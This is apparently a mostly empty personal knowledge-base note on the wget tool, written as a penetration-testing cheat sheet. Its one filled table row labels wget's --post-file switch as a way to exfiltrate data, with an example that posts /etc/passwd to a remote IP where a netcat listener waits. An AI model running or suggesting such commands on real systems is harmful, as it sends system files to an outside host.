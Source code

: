 ```yaml
---
creation date: July 23rd 2023
last modified date: July 23rd 2023
aliases: []
tags: #🧰
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🧰  

# [[wget]]  
___

## Description:


## Installation


## Commands

|            Switch            |             Description              | Example |
|:----------------------------:|:------------------------------------:|:-------:|
| `--post-file=<PATH_TO_FILE>` | Allow exfiltration (`nc -lvnp 9999`) |`wget --post-file=/etc/passwd 10.10.10.10:9999`         | 



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 23rd 2023 (02:34 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
